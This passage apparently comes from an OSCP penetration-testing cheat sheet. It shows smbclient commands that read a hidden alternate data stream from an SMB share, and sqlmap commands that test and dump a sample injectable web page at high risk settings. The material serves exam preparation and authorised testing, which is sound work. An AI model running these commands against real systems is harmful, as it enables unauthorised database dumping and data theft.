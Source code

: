 
smbclient \\\\\\\\192\.168\.0\.1\\\\Data \-U John \-c 'allinfo "\\Users\\John\\file\.txt"'



#### Download Stream By Name (:SECRET) 


smbclient \\\\\\\\192\.168\.0\.1\\\\Data \-U John

get "\\Users\\John\\file\.txt:SECRET:$DATA"


## SQLMAP 



**DISCLAIMER: 
There are a number of tools you are not allowed to use in your OSCP exam\. At the time of writing, sqlmap is one of them\. 
Check which tools are restricted/banned before you use them in your exam\. You can find detailed information about tool usage in the official exam guideline\.**


\-\-\- 




### Get Request  




#### Test All (Default Settings) 


sqlmap \-u "http://192\.168\.0\.1/database/inject\.php?q=user" \-\-batch



#### Test All (Default Settings, High Stress) 


sqlmap \-u "http://192\.168\.0\.1/database/inject\.php?q=user" \-\-batch \-\-level=5 \-\-risk=3


\-\-\- 




### Post Request (Capture with BURP) 





#### Test All (Default Settings) 


sqlmap \-\-all \-r post\_request\.txt \-\-batch



#### Test All (Default Settings, High Stress) 

